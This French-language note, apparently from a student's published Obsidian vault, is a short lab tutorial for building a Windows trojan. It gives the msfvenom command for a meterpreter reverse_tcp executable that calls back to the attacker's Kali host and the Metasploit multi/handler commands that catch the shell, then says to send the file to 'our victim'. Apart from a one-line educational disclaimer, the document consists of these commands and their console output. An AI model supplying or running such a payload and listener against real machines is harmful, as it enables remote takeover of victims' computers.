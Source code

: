```yaml
---
{"dg-publish":true,"permalink":"/kali/cheval-de-troie/"}
---
```


Tout d'abord il faut commencer par donner le chemin du fichier :
```shell
┌──(kali㉿DESKTOPEnzo)-[~/Desktop]
└─$ sudo msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP.Kali> LPORT=<Port_voulu> -f exe -o <Chemin/nom.exe>
```
Une fois cela fait il faut lancer msf console 
```Shell
┌──(kali㉿DESKTOPEnzo)-[~/Desktop]
└─$ msfconsole
```
 Une fois lancer on a cet écran :
```Shell
┌──(kali㉿DESKTOPEnzo)-[~/Desktop]
└─$ msfconsole

       =[ metasploit v6.2.26-dev                          ]
+ -- --=[ 2264 exploits - 1189 auxiliary - 404 post       ]
+ -- --=[ 951 payloads - 45 encoders - 11 nops            ]
+ -- --=[ 9 evasion                                       ]

Metasploit tip: Start commands with a space to avoid saving
them to history
Metasploit Documentation: https://docs.metasploit.com/

msf6 >
```
on va taper les commandes suivante :
```Shell
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST <IP.Kali>
LHOST => <IP.Kali>
msf6 exploit(multi/handler) > exploit
```
On se retrouve au chemin du fichier indiqué et on l'envoie à notre victime.
Attention ce TP est à but éducatif. Ce Trojan sera détecté directement par l'antivirus du système visé. Une fois installé tapez la commande `<help>` pour connaître les différentes actions possible.